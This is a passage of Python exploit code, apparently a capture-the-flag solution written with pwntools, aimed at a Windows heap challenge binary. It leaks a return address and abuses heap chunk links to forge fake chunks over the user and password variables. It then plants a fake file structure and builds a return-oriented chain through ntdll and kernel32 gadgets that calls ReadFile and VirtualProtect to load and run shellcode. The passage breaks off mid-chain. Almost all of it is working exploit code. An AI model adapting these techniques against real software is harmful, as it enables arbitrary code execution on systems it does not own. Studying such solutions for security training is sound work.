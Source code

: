         print(i, hex(ret_addr))
        if leak(ret_addr) == target:
            print('Found return address')
            found = True
            break
        ret_addr += 8
    assert found
    ret_addr -= 0x280

    add(b'A', 0x440, b'AAAA' * 8)
    add(b'A', 0x100, b'AAAA' * 8)
    add(b'B', 0x100, b'BBBB' * 8)
    add(b'C', 0x100, b'CCCC' * 8)
    add(b'D', 0x100, b'DDDD' * 8)
    remove(b'B')
    remove(b'D')
    view(b'A')
    proc.recv(0x100)
    fake_chunk_header = proc.recv(0x10)
    B_flink = u64(proc.recv(8))
    B_blink = u64(proc.recv(8))
    proc.recv(0x100 + 0x110)
    D_flink = u64(proc.recv(8))
    D_blink = u64(proc.recv(8))
    print(hex(B_flink), hex(B_blink))
    print(hex(D_flink), hex(D_blink))
    B_addr = D_blink
    pass_adr = program + 0x5648
    user_adr = program + 0x5620
    add(b'A', 0x100, b'A' * 0x100 + fake_chunk_header + p64(pass_adr + 0x10))
    logout()
    # B->fake2(pass)->fake1(user)
    fake2 = b'phdphd\x00'.ljust(8, b'\x00') + fake_chunk_header[8:]
    fake2 += p64(user_adr + 0x10) + p64(D_blink)
    fake1 = b'ddaa\x00'.ljust(8, b'\x00') + fake_chunk_header[8:]
    fake1 += p64(D_flink) + p64(pass_adr + 0x10)
    login(fake1, fake2)

    cnt = 0
    _ptr = 0
    _base = ret_addr
    flag = 0x2080
    fd = 0
    bufsize = 0x100+0x10
    obj = p64(_ptr) + p64(_base) + p32(cnt) + p32(flag)
    obj += p32(fd) + p32(0) + p64(bufsize) +p64(0)
    obj += p64(0xffffffffffffffff) + p32(0xffffffff) + p32(0) + p64(0)*2

    add(b'BBBB', 0x100, obj)
    add(b'BSS', 0x100, b'S' * 0x10 + p64(B_addr))

    logout()
    input('a')
    login(b'aaaa', b'aaaa')

    pop_rdx_rcx_r8_r9_r10_r11 = ntdll + 0x8fb30
    shellcode_addr = program + 0x5000

    readfile = kernel32 + 0x22680
    virtualprotect = kernel32 + 0x1b680
    buf = flat(pop_rdx_rcx_r8_r9_r10_r11, shellcode_addr)
    buf += flat(stdin, 0x100, shellcode_addr + 0x100, 10, 11, readfile)
    buf += flat(pop_rdx_rcx_r8_r9_r10_r11, 0x1000, shellcode_addr)
    buf += flat(0x40, ret_addr + 0x100 - 8, 0, 11)
    buf += flat(virtualprotect, shellcode_addr)